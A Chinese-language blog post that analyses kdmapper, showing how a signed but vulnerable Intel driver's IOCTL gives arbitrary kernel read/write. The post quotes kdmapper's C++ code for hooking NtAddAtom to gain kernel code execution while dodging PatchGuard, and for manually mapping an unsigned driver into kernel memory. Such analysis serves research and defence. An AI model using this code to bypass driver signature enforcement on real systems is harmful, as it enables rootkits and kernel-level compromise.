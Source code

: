 ```yaml
---
layout: post
title: "加载无签名驱动"
date: 2021-07-19 14:16:48 +0800
categories: driver re
---
```


由于dse的出现，未经签名的驱动无法被内核加载，而使用带有签名的漏洞驱动通过利用漏洞的方式加载无签名的驱动是一种可行的方式。本文将通过分析kdmapper的代码来探究加载无签名驱动的方法。

## 漏洞分析

kdmapper通过加载有签名的漏洞驱动并利用漏洞来实现加载未签名驱动的功能。漏洞的位置位于驱动ioctl处理函数中，驱动在初始化过程中注册了ioctl处理函数并在控制码为0x80862007的对应函数中提供了任意地址读写、获取物理地址、映射任意地址等功能

![image-20210719111311394](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/image-20210719111311394.png)

映射地址功能

![image-20210719111346099](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/image-20210719111346099.png)

获取物理地址

![image-20210719111406927](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/image-20210719111406927.png)



任意地址读写

![image-20210719111433722](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/image-20210719111433722.png)

## 从任意地址写到代码执行

由于漏洞驱动提供了获取物理地址以及映射物理地址的功能，因此kdmapper可以使用映射物理地址的方式读写被保护的内存，通过对内核函数进行inline hook的方法进行劫持实现任意代码执行。

```c++
		//获取r3 NtAddAtom地址
		HMODULE ntdll = GetModuleHandleA("ntdll.dll");

		const auto NtAddAtom = reinterpret_cast<void*>(GetProcAddress(ntdll, "NtAddAtom"));

		//inline hook 使用的跳转代码
		uint8_t kernel_injected_jmp[] = { 0x48, 0xb8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xff, 0xe0 };
		uint8_t original_kernel_function[sizeof(kernel_injected_jmp)];
		*(uint64_t*)&kernel_injected_jmp[2] = kernel_function_address;
		
		//获取r0 NtAddAtom地址
		static uint64_t kernel_NtAddAtom = GetKernelModuleExport(device_handle, intel_driver::ntoskrnlAddr, "NtAddAtom");


		// Overwrite the pointer with kernel_function_address
		if (!WriteToReadOnlyMemory(device_handle, kernel_NtAddAtom, &kernel_injected_jmp, sizeof(kernel_injected_jmp)))
			return false;

		// Call function
		if constexpr (!call_void) {
			using FunctionFn = T(__stdcall*)(A...);
			const auto Function = reinterpret_cast<FunctionFn>(NtAddAtom);

			*out_result = Function(arguments...);
		}
		else {
			using FunctionFn = void(__stdcall*)(A...);
			const auto Function = reinterpret_cast<FunctionFn>(NtAddAtom);

			Function(arguments...);
		}

		// Restore the pointer/jmp
		WriteToReadOnlyMemory(device_handle, kernel_NtAddAtom, original_kernel_function, sizeof(kernel_injected_jmp));

```

在inlinehook函数之后，通过在r3调用NtAddAtom触发inline hook。为了避免被PG检测到，在调用完成后立即恢复原函数

## 内存加载驱动

驱动文件同样是PE结构的文件，因此内存加载方式几乎一样，在处理完导入表和重定位后，三环程序通过漏洞驱动将驱动镜像写入到分配好的内核地址中，接着调用驱动的入口函数完成驱动的加载。

```c++
	std::vector<uint8_t> raw_image = { 0 };

	if (!utils::ReadFileToMemory(driver_path, &raw_image)) {
		Log(L"[-] Failed to read image to memory" << std::endl);
		return 0;
	}

	const PIMAGE_NT_HEADERS64 nt_headers = portable_executable::GetNtHeaders(raw_image.data());

	const uint32_t image_size = nt_headers->OptionalHeader.SizeOfImage;

	void* local_image_base = VirtualAlloc(nullptr, image_size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
	if (!local_image_base)
		return 0;

	DWORD TotalVirtualHeaderSize = (IMAGE_FIRST_SECTION(nt_headers))->VirtualAddress;

	uint64_t kernel_image_base = intel_driver::AllocatePool(iqvw64e_device_handle, nt::POOL_TYPE::NonPagedPool, image_size - (destroyHeader ? TotalVirtualHeaderSize : 0));

	do {
		// Copy image headers

		memcpy(local_image_base, raw_image.data(), nt_headers->OptionalHeader.SizeOfHeaders);

		// Copy image sections

		const PIMAGE_SECTION_HEADER current_image_section = IMAGE_FIRST_SECTION(nt_headers);

		for (auto i = 0; i < nt_headers->FileHeader.NumberOfSections; ++i) {
			auto local_section = reinterpret_cast<void*>(reinterpret_cast<uint64_t>(local_image_base) + current_image_section[i].VirtualAddress);
			memcpy(local_section, reinterpret_cast<void*>(reinterpret_cast<uint64_t>(raw_image.data()) + current_image_section[i].PointerToRawData), current_image_section[i].SizeOfRawData);
		}

		uint64_t realBase = kernel_image_base;
		if (destroyHeader) {
			kernel_image_base -= TotalVirtualHeaderSize;
			Log(L"[+] Skipped 0x" << std::hex << TotalVirtualHeaderSize << L" bytes of PE Header" << std::endl);
		}

		// Resolve relocs and imports

		RelocateImageByDelta(portable_executable::GetRelocs(local_image_base), kernel_image_base - nt_headers->OptionalHeader.ImageBase);

		if (!ResolveImports(iqvw64e_device_handle, portable_executable::GetImports(local_image_base))) {
			Log(L"[-] Failed to resolve imports" << std::endl);
			kernel_image_base = realBase;
			break;
		}

		// Write fixed image to kernel

		if (!intel_driver::WriteMemory(iqvw64e_device_handle, realBase, (PVOID)((uintptr_t)local_image_base + (destroyHeader ? TotalVirtualHeaderSize : 0)), image_size - (destroyHeader ? TotalVirtualHeaderSize : 0))) {
			Log(L"[-] Failed to write local image to remote image" << std::endl);
			kernel_image_base = realBase;
			break;
		}

		// Call driver entry point

		const uint64_t address_of_entry_point = kernel_image_base + nt_headers->OptionalHeader.AddressOfEntryPoint;
        
		NTSTATUS status = 0;

		if (!intel_driver::CallKernelFunction(iqvw64e_device_handle, &status, address_of_entry_point, param1, param2)) {
			Log(L"[-] Failed to call driver entry" << std::endl);
			kernel_image_base = realBase;
			break;
		}

		if (free)
			intel_driver::FreePool(iqvw64e_device_handle, realBase);

		VirtualFree(local_image_base, 0, MEM_RELEASE);
		return realBase;

	} while (false);


	VirtualFree(local_image_base, 0, MEM_RELEASE);

	intel_driver::FreePool(iqvw64e_device_handle, kernel_image_base);
```

